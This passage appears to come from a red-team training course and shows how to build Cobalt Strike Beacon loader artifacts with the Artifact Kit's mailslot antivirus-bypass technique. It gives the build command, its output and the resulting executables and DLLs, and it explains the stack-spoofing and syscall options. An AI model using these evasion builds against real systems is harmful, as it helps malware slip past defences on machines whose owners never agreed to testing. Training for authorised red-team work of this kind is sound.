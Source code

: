 - When set to true, the Resource File is used to change properties of the artifact, such as the CompanyName, FileDescription, ProductName, etc.  This information is defined in `src-main/resource.rc`.
    
- When set to true, Stack Spoof enables a stack spoofing technique to hide the fact the shellcode is executing from an unbacked region of memory.
    
- Syscalls sets the system call method.  Options are none, embedded, indirect, and indirect_randomized.
    
- Output Directory is the directory to save the generated artifacts.

> For the purposes of this course, we're going to ignore options like stack spoofing and syscalls because they're not necessary for basic anti-virus evasion. In fact, adding syscalls at this stage will actually add more detections.

Let's build a set of artifacts using the mailslot bypass template.

```powershell
attacker@DESKTOP-FGSTPS7:/mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact$ ./build.sh mailslot VirtualAlloc 344564 0 false false none /mnt/c/Tools/cobaltstrike/custom-artifacts
[Artifact kit] [+] You have a x86_64 mingw--I will recompile the artifacts
[Artifact kit] [*] Using allocator: VirtualAlloc
[Artifact kit] [*] Using STAGE size: 344564
[Artifact kit] [*] Using RDLL size: 0K
[Artifact kit] [*] Using system call method: none
[Artifact kit] [+] Artifact Kit: Building artifacts for technique: mailslot
[Artifact kit] [*] Recompile artifact32.dll with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact32.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact32svc.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact32big.dll with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact32big.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact32svcbig.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact64.x64.dll with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact64.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact64svc.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact64big.x64.dll with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact64big.exe with src-common/bypass-mailslot.c
[Artifact kit] [*] Recompile artifact64svcbig.exe with src-common/bypass-mailslot.c
[Artifact kit] [+] The artifacts for the bypass technique 'mailslot' are saved in '/mnt/c/Tools/cobaltstrike/custom-artifacts/mailslot'
```

>The stage size tends to vary between CS releases as features get added or removed from Beacon.  Always run build.sh without arguments first to see what the minimum stage sizes are.

This will output a new set of artifacts and an Aggressor script called `artifact.cna`.

```powershell
PS C:\Tools\cobaltstrike\custom-artifacts\mailslot> ls

    Directory: C:\Tools\cobaltstrike\custom-artifacts\mailslot

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        19/03/2025     11:04          12045 artifact.cna
-a----        19/03/2025     11:03          38400 artifact32.dll
-a----        19/03/2025     11:03          40448 artifact32.exe
-a----        19/03/2025     11:03         409600 artifact32big.dll
-a----        19/03/2025     11:03         411648 artifact32big.exe
-a----        19/03/2025     11:03          42496 artifact32svc.exe
-a----        19/03/2025     11:03         413696 artifact32svcbig.exe
-a----        19/03/2025     11:03          41472 artifact64.exe
-a----        19/03/2025     11:03          39936 artifact64.x64.dll
-a----        19/03/2025     11:04         413184 artifact64big.exe
-a----        19/03/2025     11:03         411648 artifact64big.x64.dll
-a----        19/03/2025     11:03          43520 artifact64svc.exe
-a----        19/03/2025     11:04         415232 artifact64svcbig.exe
```
